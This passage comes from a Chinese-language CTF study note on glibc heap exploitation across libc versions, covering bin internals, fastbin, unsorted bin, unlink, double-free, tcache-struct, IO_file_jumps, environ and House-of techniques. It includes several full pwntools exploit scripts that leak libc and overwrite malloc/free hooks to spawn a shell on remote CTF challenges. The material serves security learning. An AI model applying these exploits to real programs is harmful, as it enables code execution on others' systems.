- large bin attack：利用malloc中将unsorted bin中的largin chunk放入large bin时没有做充足的检测进而可以修改任意地址为堆块的值。

#### libc 2.27

2.27版本比2.23多了一个tchache bin。tchache bin是在2.26版本中引入的，用来进一步提升堆管理性能。

- tcache_dup：tcache的释放没有进行double free检测，如果存在UAF漏洞可直接对tcache进行double free 进而实现任意地址分配。
- tcache_poisoning：类似于修改fast bin的fd字段。当程序存在溢出漏洞时，可以修改tcache的next字段，达到任意地址分配的目的。
- tcache_house_of_spirit：类似于fast bin的house_of_spirit，但是tcache的检测比fastbin更为简单，只需要释放的chunk满足size要求即可，并不会对下一个chunk进行检测。
- house_of_bot_cake：该方法的利用需要有UAF漏洞。释放7个chunk进而填满tcache，再释放两个相同的chunkA和B使其consolidate，再分配一个相同大小的chunk，让tcache有空余，再利用UAF再次释放chunkB，进而可以实现overlapping。
- tcache_stashing_unlink_attack：利用分配small bin时会将多余的块放入tcache的机制，恶意修改bk的值，以达到修改某个地址为一个很大的值的目的。类似于unsorted bin attack。
- fastbin_reverse_into_tcache：该利用方法和上一个利用方法原理类似，利用了分配fastbin时，会将多余的chunk放入tcache中。做法是先将tcache填满，再释放7个chunk，并修改fast表头的fd指针为我们想修改的地址。之后malloc8个chunk，在分配第8个chunk时，将会把fast bin中的chunk放入tcache中，从而修改目标地址。

#### libc 2.29

libc2.29没有修改malloc和free的逻辑也没有新增像tcache一样的机制，只是修改了一些在malloc和free chunk时的检测机制

在2.29版本中，对tcache结构体加入了新的字段 key。加这个字段的目的主要是用来检测double free。在加入tcache_bin时将key字段赋值为tcahce的地址，而在取出时，会将该字段清零。

如果当前释放的chunk，其key字段为tcache的话，那么判断其为double free

如果当前释放的chunk，其key字段为tcache的话，那么判断其为double free

2.29与2.27相比，unsorted_bin_attack，house of force，tcache_dump这三个漏洞利用技术，无法再使用。

#### libc 2.31

总结来说，在`free`一个要放入`tcache`的`chunk`时，其会先检测`key`值，如果`key!=tcache`，说明没有`double free`，如果`key==tcache`，那会被检测到，出现问题
如果确定该`chunk`要放入`tcache`里，那么放入前会把该`chunk`的`key设置为tcache，标记其已放入tcache里`

#### libc 2.33

tache

fd指针异或加密，修改地址为 要修改的地址 ^ (heap_base >> 12)

~~~ python
for i in range(9):
    add() # 0-8
# debug()
for i in range(8):
    delete(i) #0-7
show(0)
heap_base = u64(rc(5).ljust(8, b'\x00')) << 12
slog("heap_base", heap_base)

edit(7, b'\xff') #防止\x00截断
show(7)
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - 0x1e0cff
slog("libc_base", libc_base)
edit(7, b'\x00')
~~~


#### libc 2.3x

进入到`glibc-2.31`之后，很多原有的堆利用方法就失效，因此`glibc`给堆分配机制陆陆续续打上了很多`patch`，目前来看，与堆利用有关的`patch`有：

- `tcachebin`堆指针异或加密（`glibc-2.32`引入）
- `tcahebin`链的数量检查（`glibc-2.33`引入）
- `fastbin`堆指针异或加密（`glibc-2.32`引入）
- 堆内存对齐检查（`glibc-2.32`引入）
- **移除`__malloc_hook`和`__free_hook`（`glibc-2.34`引入）**
- 引入`tcache_key`作为`tcache`的`key`检查（`glibc-2.34`引入）
- `__malloc_assert`移除掉`IO`处理函数（`glibc-2.36`引入）
- 移除`__malloc_assert`函数（`glibc-2.37`引入）
- 将`global_max_fast`的数据类型修改为`uint8_t`（`glibc-2.37`引入）

根据目前已有的`patch`，结合之前已有的堆利用方法，总结`2.35`版本之后的攻击向量与攻击面，给出针对这些攻击面的攻击手段，并对某些攻击面的利用方法进行思考和拓展。如有错误或遗漏，欢迎批评指正。

### malloc_chunk

**无论一个 `chunk` 的大小如何，处于分配状态还是释放状态，它们都使用一个统一的结构**。虽然它们使用了同一个数据结构，但是根据是否被释放，它们的表现形式会有所不同。

malloc_chunk 的结构如下:

~~~ c
/*
  This struct declaration is misleading (but accurate and necessary).
  It declares a "view" into memory allowing access to necessary
  fields at known offsets from a given base. See explanation below.
*/
struct malloc_chunk {

  INTERNAL_SIZE_T      prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      size;       /* Size in bytes, including overhead. */

  struct malloc_chunk* fd;         /* double links -- used only if free. */
  struct malloc_chunk* bk;

  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};
~~~


### bins

####  Fast Bin

- 概念：chunk的大小在**32字节~128字节（0x20~0x80）的chunk称为“fast chunk”**（**大小不是malloc时的大小，而是在内存中struct malloc_chunk的大小，包含前2个成员**）。
- fast bin链表的个数为10个。
  - 每个fast bin链表都是单链表（使用fd指针）。因此，fast bin中无论是添加还是移除fast chunk，都是对“链表尾”进行操作，而不会对某个中间的fast chunk进行操作。
  - 单个fastbin链表中的chunk大小都是相同的，各个fastbin链表中的chunk大小是不同的。
  - fastbinY数组中的每个bin链表的排序，是按照链表元素的大小进行排序的。数组的第一个元素的fast bin链表中的每个chunk的大小是32字节的，数组的第二个元素的fast bin链表中的每个chunk的大小是48字节的......每个元素都比前面的fast bin链大16字节，以此类推进行排序。
- 不会对free chunk进行合并：鉴于设计fast bin的初衷就是进行快速的小内存分配和释放，因此系统将属于fast bin的chunk的PREV_INUSE位总是设置为1，这样即使当fast bin中有某个chunk同一个free chunk相邻的时候，系统也不会进行自动合并操作，而是保留两者。虽然这样做可能会造成额外的碎片化问题，但瑕不掩瑜。
##### malloc操作与fastbins的初始化：

- 当应用层通过malloc函数第一次申请的chunk属于16字节~80字节之间时，因为初始化的时候fast bin支持的最大内存大小以及所有fast bin链表都是空的，所以它也不会交由fast bin来处理，而是向下传递交由small bin来处理，如果small bin也为空的话就交给unsorted bin处理。
- 那么，fast bin如何进行初始化哪？
- 当我们第一次调用malloc(fast bin)的时候，系统执行_int_malloc函数，该函数首先会发现当前fast bin为空，就转交给small bin处理，进而又发现small bin 也为空，就调用malloc_consolidate函数对malloc_state结构体进行初始化。malloc_consolidate函数主要完成以下几个功能：
  - a.首先判断当前malloc_state结构体中的fast bin是否为空，如果为空就说明整个malloc_state都没有完成初始化，需要对malloc_state进行初始化。
  - b.malloc_state的初始化操作由函数malloc_init_state(av)完成，该函数先初始化除fast bin之外的所有的bins，再初始化fast bins。
- 那么当再次执行malloc(fast chunk)函数的时候，此时fast bin相关数据不为空了，就可以使用fast bin。

#### Unsorted Bin

- 何时使用：当释放较小或较大的chunk的时候，如果系统没有将它们添加到对应的bins中，系统就将这些chunk添加到unsorted bin中。
- 目的：这主要是为了让“glibc malloc机制”能够有第二次机会重新利用最近释放的chunk(第一次机会就是fast bin机制)。利用unsorted bin，可以加快内存的分配和释放操作，因为整个操作都不再需要花费额外的时间去查找合适的bin了。
- Unsorted bin的特性如下：
  - unsorted bin的个数： 1个。
  - unsorted bin是一个由free chunks组成的循环双链表。
  - 在unsorted bin中，对chunk的大小并没有限制，任何大小的chunk都可以归属到unsorted bin中。
  - unsortedbin采用的遍历顺序是FIFO。

#### Small Bin

- 概念：小于1024字节（0x400）的chunk称之为small chunk，small bin就是用于管理small chunk的。
-  small bin链表的个数为62个。
  - 每个smallbin也是一个由对应free chunk组成的循环双链表。
  - small bin采用FIFO(先入先出)算法：内存释放操作就将新释放的chunk添加到链表的front end(前端)，分配操作就从链表的rear end(尾端)中获取chunk。
  - 单个smallbin链表中的chunk大小都是相同的，各个smallbin链表中的chunk大小是不同的，跟fastbinsY数组存储fastbin链的原理是相同的。
  - bins数组存储small bin链时：第一个small bin链中chunk的大小为32字节，后续每个small bin中chunk的大小依次增加两个机器字长（32位相差8字节，64位相差16字节）.......以此类推，跟fastbinsY数组存储fastbin链的原理是相同的（用下图表示）。
  - bin链存储的大小与数组下标的关系：chun_size=2*SIZE_SZ*index。
- 就内存的分配和释放速度而言，small bin比larger bin快，但比fast bin慢。
- 合并操作：相邻的free chunk需要进行合并操作，即合并成一个大的free chunk。具体操作见下文free(small chunk)介绍。

##### malloc操作与small bin的初始化

- 类似于fast bins，最初所有的small bin都是空的，因此在对这些small bin完成初始化之前，即使用户请求的内存大小属于small chunk也不会交由small bin进行处理，而是交由unsorted bin处理。
- 如果unsorted bin也不能处理的话，glibc malloc就依次遍历后续的所有bins，找出第一个满足要求的bin，如果所有的bin都不满足的话，就转而使用top chunk，如果top chunk大小不够，那么就扩充top chunk，这样就一定能满足需求了。
- 注意遍历后续bins以及之后的操作同样被large bin所使用，因此，将这部分内容放到large bin的malloc操作中加以介绍。
- 那么glibc malloc是如何初始化这些bins的呢？因为这些bin属于malloc_state结构体，所以在初始化malloc_state的时候就会对这些bin进行初始化，代码如下：
  - 将bins数组中的第一个成员索引值设置为了1，而不是我们常用的0(在bin_at宏中，自动将i进行了减1处理)。
  - 从上面代码可以看出在初始化的时候glibc malloc将所有bin的指针都指向了自己——这就代表这些bin都是空的。

~~~ c
static void
malloc_init_state (mstate av)
{
    int i;
    mbinptr bin;
    
    /* Establish circular links for normal bins */
    for (i = 1; i < NBINS; ++i)
    {
        bin = bin_at (av, i);
        bin->fd = bin->bk = bin;
    }
 
    ......
}
~~~

- 过后，当再次调用malloc(small chunk)的时候，如果该chunk size对应的small bin不为空，就从该small bin链表中取得small chunk给malloc使用。

##### free

small的free比较特殊。当释放small chunk的时候，先检查该chunk相邻的chunk是否为free，如果是的话就进行合并操作：将这些chunks合并成新的chunk，然后将它们从small bin中移除，最后将新的chunk添加到unsorted bin中，之后unsorted bin进行整理再添加到对应的bin链上（后面会有图介绍）。


####  Large Bin

- 概念：大于等于1024字节（0x400）的chunk称之为large chunk，large bin就是用于管理这些largechunk的。
  large bin链表的个数为63个，被分为6组。
- largechunk使用fd_nextsize、bk_nextsize连接起来的。
- 合并操作：类似于small bin。

##### malloc操作与large bin的初始化

- 初始化完成之前的操作类似于small bin。
- 下面讨论large bins初始化完成之后的操作：
  - 首先确定用户请求的大小属于哪一个large bin，然后判断该large bin中最大的chunk的size是否大于用户请求的size(只需要对比链表中front end的size即可)。如果大于，就从rear end开始遍历该large bin，找到第一个size相等或接近的chunk，分配给用户。如果该chunk大于用户请求的size的话，就将该chunk拆分为两个chunk：前者返回给用户，且size等同于用户请求的size；剩余的部分做为一个新的chunk添加到unsorted bin中。
  - 如果该large bin中最大的chunk的size小于用户请求的size的话，那么就依次查看后续的large bin中是否有满足需求的chunk，不过需要注意的是鉴于bin的个数较多(不同bin中的chunk极有可能在不同的内存页中)，如果按照上一段中介绍的方法进行遍历的话(即遍历每个bin中的chunk)，就可能会发生多次内存页中断操作，进而严重影响检索速度，所以glibc malloc设计了Binmap结构体来帮助提高bin-by-bin检索的速度。Binmap记录了各个bin中是否为空，通过bitmap可以避免检索一些空的bin。如果通过binmap找到了下一个非空的large bin的话，就按照上一段中的方法分配chunk，否则就使用top chunk来分配合适的内存。

### Fast Bin Attack

libc-2.23 

版本下，**伪造fast_bins区间的chunk时，会检测该chunk的size域是否位于fast_bins的区间内**，所以我们要找个fake_fast_chunk，pwndbg里安置了该插件，供我们快速寻找。因为我们**劫持的是malloc_hook**，所以我们寻找它的fake_fast_chunk即可,一般来说，`fake_fast_chunk = malloc_hook - 0x23`

fake_fast_chunk


0x7fb77410cb10 - 0x7fb77410caed = 0x23就是需要劫持的地址

再填充0x13即可修改malloc_hook

### Unsorted Bin Attack

Unsorted bin也是堆题中常见的，**当一个堆块被释放时，且该堆块大小不属于fast bin（libc-2.26之后要填满tcache）**，那么在进入small bin和large bin之前，都是先加入到unsorted bin的。之后当我们需要再次分配内存时，如果tcache bin和fastbin上都找不到合适的匹配就会到unsorted bin上寻找，如果申请的内存堆块小于寻找的unsorted bin，那么会将该内存块切割后返回给用户，剩下的仍然保存在unsorted bin上；如果申请的内存堆块大于unsorted bin上存放的，那么会从Top chunk上重新分割，此时就会把unsorted bin上的堆块按照大小放回small bin和large bin中。
  所以这里我们可以将unsorted bin看成一个缓存机制，这样可以加快内存的分配。除此之外，unsorted bin采用的也是双链表结构，先进先出策略，同时需要注意的是unsorted bin只有一条链，该链上会存放不同的堆块大小。

Unsorted Bin Attack主要就两个应用：

1. 泄露libc地址
2. 任意地址写一个较大的值

在实际的题目中Unsorted Bin Attack一般只是我们整个攻击流程的一部分

#### **泄露libc地址**
在把一个堆块放进unsorted_bin中后其fd和bk指针会写上main_arena再加一定偏移的值，main_arena就在libc中，确定好偏移即可得到libc基地址，当然，这个要求是你能够将其show出来，如果没有uaf的话，可以molloc一个较小的堆块切割unsortedbin，其fd和bk的值依旧残留在申请出的chunk中，如果没有show功能的话，可能就要结合IO相关的利用泄露地址了

释放一个不属于fast bin的chunk，并且该chunk`不与top chunk相邻`，该 chunk会被首先放到Unsorted bin中

p(main_arena) = p(malloc_hook) + 0x10

~~~ python
例如
add(0x420, 'test', 'test')
add(0x20, 'test', 'test') # 让第0个chunk不与top chunk相邻
delete(0) #释放，进入unsorted_bin
show(0) #泄露地址
addr = get_addr()
print(hex(addr))
# gdb.attach(p)
malloc_hook = addr - 96 - 0x10 # 96是gdb调试看出来的偏移，0x10是malloc_hook与main_arena之间的固定偏移

libc_base = malloc_hook - libc.symbols['__malloc_hook']
~~~

### ULINK

在执行free()函数时执行了 _int_free()函数，在_int_free()函数中调用了unlink宏

#### 利用思路

##### 条件

1. UAF ，可修改 free 状态下 smallbin 或是 unsorted bin 的 fd 和 bk 指针
2. 已知位置存在一个指针指向可进行 UAF 的 chunk

##### 效果

使得已指向 UAF chunk 的指针 ptr 变为 ptr - 0x18

##### 思路

设指向可 UAF chunk 的指针的地址为 ptr

1. 修改 fd 为 ptr - 0x18
2. 修改 bk 为 ptr - 0x10
3. 触发 unlink

ptr 处的指针会变为 ptr - 0x18。


~~~ python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'

# p = process('./service')
p = remote("node4.anna.nssctf.cn", 28431)
elf = ELF('./service')


libc = ELF('./glibc-all-in-one/libs/2.23-0ubuntu11.3_amd64/libc-2.23.so')

def get_addr():
    return u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))


def touch(size):
    p.recvuntil('chooice :\n')
    p.sendline('1')
    p.recvuntil('size :')
    p.sendline(str(size))


def delete(index):
    p.recvuntil('chooice :\n')
    p.sendline('2')
    p.recvuntil('delete\n')
    p.sendline(str(index))


def show(index):
    p.recvuntil('chooice :\n')
    p.sendline('3')
    p.recvuntil('show\n')
    p.sendline(str(index))


def edit(index, content):
    p.recvuntil('chooice :\n')
    p.sendline('4')
    p.recvuntil('modify :\n')
    p.sendline(str(index))
    p.recvuntil('input the content')
    p.send(content)


touch(0x30)
touch(0x80)

ptr = 0x6020C0
payload = p64(0) + p64(0x20) + p64(ptr - 0x18) + p64(ptr - 0x10) + p64(0x20) + b'a' * 8 + p64(0x30) + p64(0x90)
edit(0, payload)
delete(1)
success("unlink sucessful!")

payload1 = b'a' * 24 + p64(ptr + 0x8)
edit(0, payload1)
payload1 = p64(elf.got['puts'])
edit(0, payload1)
show(1)
puts_addr = get_addr()
print(hex(puts_addr))
_p_libc_system = libc.symbols['system']
_p_libc_binsh = libc.search(b'/bin/sh').__next__()
_p_libc_puts = libc.symbols['puts']
libc_base = puts_addr - _p_libc_puts
p_system = libc_base  + _p_libc_system
p_binsh = libc_base  + _p_libc_binsh
free_hook = libc_base + libc.symbols['__free_hook']

payload1 = p64(free_hook) + p64(p_binsh)
edit(0, payload1)
edit(1, p64(p_system))
delete(2)
p.interactive()

~~~

### Double Free

- 在glibc2.27之前，主要是fastbin double free：
  fastbin在free时只会检查现在释放的chunk，是不是开头的chunk，因此可以通过free(C1), free(C2), free(C1)的手法绕过
  并在在fastbin取出时，会检查size字段是不是属于这个fastbin，因此往往需要伪造一个size

- glibc2.27~glibc2.28，主要是tcache double free
  相较于fastbin double free，tcache完全没有任何检查，只需要free(C1), free(C1)就可以构造一个环出来

- glibc2.29～glibc2.31，tcache加入了检查机制,不能free任何一个已经在tcache中的chunk

  - 绕过的方法有两个：

    1. 想办法修改key字段
    2. 使用fastbin double free

  - 手法：实际流程：申请9个、释放七个，double free，申请7个，然后开始利用，申请1个并写入内容为任意地址，申请2个，再申请1个（这个就是指向前面的任意地址的chunk）对这个进行修改，即对任意地址进行修改

  - 

  - 为了分配到fastbin，需要先申请7个，让Tcache为空，再次申请时就会使用fastbin中的C7，这一步就也就整个手法的精华

    在glibc2.7以前，申请到C7，并在C7的fd字段写入target后，链表为：fastbin->C8->C7->target

    但由于fastbin取出时检查size字段，导致这个写入很受限制，但在有了stash机制后，情况就变了

    取出C7后，Stash会把fastbin链表中的chunk全部放入Tcache中，而C7又是被我们分配到的，这就导致我们实际上劫持的是Tcache链表，不需要伪造size字段，获得了一个真正的任意写

  ~~~ python
  from pwn import *
  from LibcSearcher import *
  
  context(arch='amd64', os='linux', log_level='debug')
  context.terminal = ['tmux', 'splitw', '-h']
  # io = process('vuln')
  
  
  io = remote('node5.anna.nssctf.cn', 27569)
  libc = ELF('./libc-2.31.so')
  def get_address(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))
  
  
  s = lambda content: io.send(content)
  sl = lambda content: io.sendline(content)
  sa = lambda content, send: io.sendafter(content, send)
  sla = lambda content, send: io.sendlineafter(content, send)
  rc = lambda number: io.recv(number)
  ru = lambda content: io.recvuntil(content)
  
  
  def choice(idx):
      io.sendlineafter(b'>', str(idx))
  
  
  def add(idx, size, content):
      choice(1)
      io.sendlineafter(b'Index: ', str(idx))
      io.sendlineafter(b'Size: ', str(size))
      io.sendlineafter(b'Content: ', content)
  
  
  def free(idx):
      choice(2)
      io.sendlineafter(b'Index: ', str(idx))
  
  
  def show(idx):
      choice(3)
      io.sendlineafter(b'Index: ', str(idx))
  
  
  text = "test"
  for i in range(9):
      add(i, 0x80, text)
  for i in range(8):
      free(i)
  show(7)
  libc_base = get_address() - 0x1ecbe0
  free_hook = libc_base + libc.sym['__free_hook']
  malloc_hook = libc_base + libc.sym['__malloc_hook']
  system = libc_base + libc.sym['system']
  one_gadget = [0xe3afe, 0xe3b01, 0xe3b04]
  
  # Re-balance the bins
  for i in range(8):
      add(i, 0x60, b'AAAA')
  add(8, 0x60, b'AAAA')
  add(9, 0x60, b'AAAA')
  
  for i in range(8):
      free(i)
  free(8)
  free(9)
  free(8)
  
  for i in range(7):
      add(i, 0x60, b'000')
  
  add(7, 0x60, p64(malloc_hook))
  add(1, 0x60, b'AAAAA')
  add(2, 0x60, b'BBBBB')
  add(3, 0x60, p64(libc_base + one_gadget[1]))
  io.sendlineafter(b'>', b'1')
  io.sendlineafter(b'Index: ', b'5')
  io.sendlineafter(b'Size: ', b'60')
  
  io.interactive()
  
  ~~~

  
  
###  setcontext+orw


### tcache struct attack

堆地址的第一个chunk：
tcache_perthread_struct的chunk头：0x11字节
counts数组一共占用64字节,每个字节对应着一个链表,用来存放对应链表中存放着chunk的数量 0x40
entry指针数组是用来存储每个链表中链表头的chunk地址，一共占用8*64字节 0x40*8

正好0x251字节


不能直接控制heap_base，会导致程序崩溃

heap_base + 0x10 为tcache struct结构体

 修改tcache struct结构体 counts

~~~ python
edit(p64(heap_base + 0x10)) #tache attack
add(0x78)
add(0x78)
edit(p64(0) * 4 + p64(0x0000000007000000)) #修改counts数组使得tache struct chunk所在的bins数量为7
 
free() #释放tache struct，由于前面修改为7了，所以会进入unsorted_bin， fd和bk指针指向main_arena
show() #泄露main_arena地址 会有固定偏移

io.recvuntil(b'Content: ')
libc_base = u64(io.recv(6).ljust(8, b'\x00')) - (libc.sym['__malloc_hook'] + 0x70)
edit(p64(0) * 4 + p64(0x0000000000000000)) #复原counts数组
~~~

entrys

~~~ python
# 还是劫持heap_base + 0x10
示例
payload = b'\x00' * 0x40 #填充counts数组
payload += p64(free_hook) #0x20的chunk 
payload += p64(0) #0x30
payload += p64(flag_addr) #0x40
payload += p64(stack_pivot_1) #0x50
payload += p64(stack_pivot_2)
payload += p64(orw1)
payload += p64(orw2)
edit(payload)
~~~


### 劫持IO_file_jumps攻击

_IO_lock_t _IO_stdfile，_IO_wide_data（针对宽字节的虚函数表），`_IO_FILE_plus（含有stdin,stdout）`三者均被定义为IO_file_jumps


```python
IO_file_jumps = libc_base + libc.sym['_IO_file_jumps']

edit(1,p64((heap_base >> 12)^IO_file_jumps) + p64(0)) #异或加密版本libc
add()
add()
edit(15,p64(0) * 3 + p64(one_gadget))
```


__overflow被覆盖为了onegadget的地址，原本调用puts的流程是`puts->_IO_putc->_IO_overflow`，这下_IO_overflow变成了onegadget，意味着**执行puts的时候就getshell了**

~~~ python
#[CISCN 2022 华东北]duck
from pwn import *
from LibcSearcher import*
context(arch = 'amd64', os = 'linux', log_level = 'info')
context.terminal = ['tmux','splitw','-h']
io = process('./pwn')
io = remote('node4.anna.nssctf.cn',28704)

s   = lambda content : io.send(content)
sl  = lambda content : io.sendline(content)
sa  = lambda content,send : io.sendafter(content, send)
sla = lambda content,send : io.sendlineafter(content, send)
rc  = lambda number : io.recv(number)
ru  = lambda content : io.recvuntil(content)

def slog(name, address): print("\033[40;31m[+]\033[40;35m"+ name + "==>" + hex(address) + "\033[0m")

def debug(): gdb.attach(io)
def get_address(): return u64(ru(b'\x7f')[-6:].ljust(8, b'\x00'))

def add():
    sla(": ", '1')

def delete(index):
    sla(": ", '2')
    sla(": \n", str(index))

def show(index):
    sla(": ", '3')
    sla(": \n", str(index))

def edit(index, size, content):
    sla(": ", '4')
    sla(": \n", str(index))
    sla(": \n", str(size))
    sa(": \n", content)

#====== leak heap base ======#
add()  #0
delete(0)
show(0)
heap_base = u64(rc(5).ljust(8, b'\x00'))<<12
slog("heap_base", heap_base)

for i in range(9):
    add()
for i in range(7):
    delete(i+1)

#====== leak the libc =====#
delete(8)
show(8)
main_arena = (get_address()) - 0x60
slog("main_arena", main_arena)
libc = ELF("./libc.so.6")


#====== prepare to leak the stack =====#
libc_base = main_arena - libc.sym['main_arena']
slog("libc_base",libc_base)
_IO_file_jumps = libc_base + libc.sym['_IO_file_jumps']
slog("IO_file_jumps", _IO_file_jumps)
#====== alloc the libc chunk and get the stack=====#
edit(7, 16, p64((heap_base>>12)^_IO_file_jumps) + p64(0))
add() #10
add() #11
onegadget1 = libc_base + 0xda861
slog("one_gadget",onegadget1)
onegadget2 = libc_base + 0xda864
onegadget3 = libc_base + 0xda867
pl = p64(0)*3 + p64(onegadget2)
edit(11, len(pl), pl)

#===== ROP build ========#


io.interactive()
~~~


### environ attack

environ，顾名思义，就是**环境变量**

可以**通过environ泄露出栈地址**，根据相对偏移**计算出当前栈的地址的ret**，如果能修改ret，我们就有很多操作空间

environ，在Linux C中，environ是一个全局变量，它储存着系统的环境变量。它储存在libc中，因此environ是沟通libc地址与栈地址的桥梁。

同时environ里面存储了栈地址附近的内容，我们可以通过泄露environ变量来泄露栈地址

程序内函数的返回地址和environ变量的距离是固定的，通过gdb调试，我们可以得到这个偏移

再通过其他攻击方式来写到栈地址内，从而覆盖到我们的rip寄存器，从而实现劫持控制流的攻击

#### 利用思路

- 利用某些攻击来泄露出environ里面的内容
- 调试得到某个函数的返回地址和泄露地址的偏移
- 在不破坏某些关键内容的情况下，覆盖rip寄存器来劫持控制流

#### 利用条件

- 有libc地址
- 有heap基地址
- 能实现任意地址写

#### 偏移查看

一般是修改edit函数的ret

具体步骤如下：

- gdb调试到edit函数的leave位置，查看rsp寄存器的值

- tele &environ
- 地址相减


如图为

选取指向的第一个地址0x7fffffffdd68


计算得偏移为0x138

将environ-0x138修改为orw即可getshell

#### 泄露方法

##### uaf

存在uaf的情况下，修改free chunk内容为

environ = libc_base + libc.symbols["_environ"]

再申请两次，得到指向environ的chunk，puts该chunk即可泄露栈地址，减去前面计算的偏移，得到对应函数的ret地址

~~~ python
stack = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
~~~

### HOUSE OF

#### HOUSE OF EINHERJAR

##### 适用范围

- `2.23`—— 至今
- 可分配大于处于 `unsortedbin` 的 `chunk`

##### 条件

可以修改堆块的pre_size和pre_inuse（只需要offbynum即可）

需要伪造chunk，

#### HOUSE OF FORCE

- **适用libc版本:2.23 2.27**

- 使用前提:
  - 申请堆块的大小不受限制
  - 能够篡改top chunk的size位(主要是通过溢出的手段)
  - 有top chunk原本的地址(这一条在特殊情况下，可以不具备)
  - 有将top chunk更新后的目的地址(这一条在特殊情况下，可以不具备)

公式(一般劫持got表)：

~~~ python
malloc_size = target_addr - 0x20 - topchunk_addr
~~~


PS：特殊情况为：我们只需要top chunk的地址更新到堆区，这样我们只需要知道top chunk和目的地址二者的偏移即可。(因为本身其实算request_size的时候要的就是二者偏移)(相关题目可以看hitcontraining_bamboobox)

攻击效果：可以将top chunk更新到任意已知地址，再将新的堆块从top chunk中申请出来写入数据。就可以达到任意地址任意写的目的。

防御措施：对top chunk的size位进行检查，判断是否合法

#### HOUST OF LORE

##### 使用版本以及影响

- 2.23-2.31(不包含2.31)
- **libc-2.31**（House Of Lore 被ban）

##### 原理

house of lore是通过small bin机制，去进行任意地址的chunk 分配

##### 利用条件

- House of Lore 利用的前提是需要控制 Small Bin Chunk 的bk指针，并且控制指定位置 chunk 的fd指针


p1为victim,p2为stack_buffer_1

#### House of Orange

修改top_chunk 的size

malloc大于top chunk大小的chunk，使得top chunk进入unsorted_bin，再申请chunk时可以从unsorted_bin切割chunk

伪造的 top chunk size 的要求

1. 伪造的 size 必须要对齐到内存页
   1. 什么是对齐到内存页呢？我们知道现代操作系统都是以内存页为单位进行内存管理的，一般内存页的大小是 4kb。那么我们伪造的 size 就必须要对齐到这个尺寸。在覆盖之前 top chunk 的 size 大小是 20fe1，通过计算得知 0x602020+0x20fe0=0x623000 是对于 0x1000（4kb）对齐的。
   2. 因此我们伪造的 fake_size 可以是 0x0fe1、0x1fe1、0x2fe1、0x3fe1 等对 4kb 对齐的 size。而 0x40 不满足对齐，因此不能实现利用。
2. size 要大于 MINSIZE(0x10)
3. size 要小于之后申请的 chunk size + MINSIZE(0x10)
4. size 的 prev inuse 位必须为 1

之后原有的 top chunk 就会执行`_int_free`从而顺利进入 unsorted bin 中。


## 附录

### linux系统调用表（64位)

| 系统调用号 | 函数名                 | 入口点                     | 源代码                                                       |
| ---------- | ---------------------- | -------------------------- | ------------------------------------------------------------ |
| 0          | read                   | sys_read                   | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 1          | write                  | sys_write                  | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 2          | open                   | sys_open                   | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 3          | close                  | sys_close                  | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 4          | stat                   | sys_newstat                | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 5          | fstat                  | sys_newfstat               | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 6          | lstat                  | sys_newlstat               | [fs/stat.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/stat.c) |
| 7          | poll                   | sys_poll                   | [fs/select.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/select.c) |
| 8          | lseek                  | sys_lseek                  | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 9          | mmap                   | sys_mmap                   | [arch/x86/kernel/sys_x86_64.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/sys_x86_64.c) |
| 10         | mprotect               | sys_mprotect               | [mm/mprotect.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mprotect.c) |
| 11         | munmap                 | sys_munmap                 | [mm/mmap.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mmap.c) |
| 12         | brk                    | sys_brk                    | [mm/mmap.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/mm/mmap.c) |
| 13         | rt_sigaction           | sys_rt_sigaction           | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 14         | rt_sigprocmask         | sys_rt_sigprocmask         | [kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/kernel/signal.c) |
| 15         | rt_sigreturn           | stub_rt_sigreturn          | [arch/x86/kernel/signal.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/arch/x86/kernel/signal.c) |
| 16         | ioctl                  | sys_ioctl                  | [fs/ioctl.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/ioctl.c) |
| 17         | pread64                | sys_pread64                | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 18         | pwrite64               | sys_pwrite64               | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 19         | readv                  | sys_readv                  | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 20         | writev                 | sys_writev                 | [fs/read_write.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/read_write.c) |
| 21         | access                 | sys_access                 | [fs/open.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/open.c) |
| 22         | pipe                   | sys_pipe                   | [fs/pipe.c](https://git.kernel.org/cgit/linux/kernel/git/torvalds/linux.git/tree/fs/pipe.c) |
